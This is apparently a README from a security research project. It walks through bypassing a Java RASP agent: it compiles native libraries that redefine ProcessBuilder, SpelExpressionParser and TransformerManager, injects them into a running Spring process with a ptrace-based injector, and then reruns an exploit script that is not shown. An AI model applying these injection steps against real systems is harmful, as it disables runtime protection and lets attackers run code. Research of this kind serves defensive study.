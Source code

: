 RASP Bypass using Process Injection

- Use your own RASP agent or use [rasp-agent](..%2Frasp-agent)
- if you use [rasp-agent](..%2Frasp-agent), add:
  - env RASP_AGENT_PATH=path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar
- Run [Main.kt](src%2Fmain%2Fjava%2Fcom%2Fapplicationsec%2FMain.kt) with the VM option:
  - -javaagent:path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar
- Run [exploit.sh](exploit.sh) and see that we are blocked.
  ![blocked.png](blocked.png)

Inject it in the target process
- set JAVA_HOME property (e.g. export JAVA_HOME=/Library/Java/JavaVirtualMachines/openjdk-17.jdk/Contents/Home)
- Compile libraries
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineTransformerManager.cpp -o redefineTransformerManager.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineProcessBuilder.cpp -o redefineProcessBuilder.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineSpelExpressionParser.cpp -o redefineSpelExpressionParser.dylib -L"$JAVA_HOME/lib/server" -ljvm
- now inject the library (e.g. using ptrace for macos/linux: https://github.com/kubo/injector)
- cd injector/cmd
- ./injector -java -p $pid path/to/redefineTransformerManager.dylib
- ./injector -java -p $pid path/to/redefineSpelExpressionParser.dylib
- ./injector -java -p $pid path/to/redefineProcessBuilder.dylib
- Look at the spring app logs, and confirm that the injection succeeded
  ![attached.png](attached.png)
- now rerun the exploit[exploit.sh](exploit.sh), you should have bypassed rasp
  ![bypassed.png](bypassed.png)
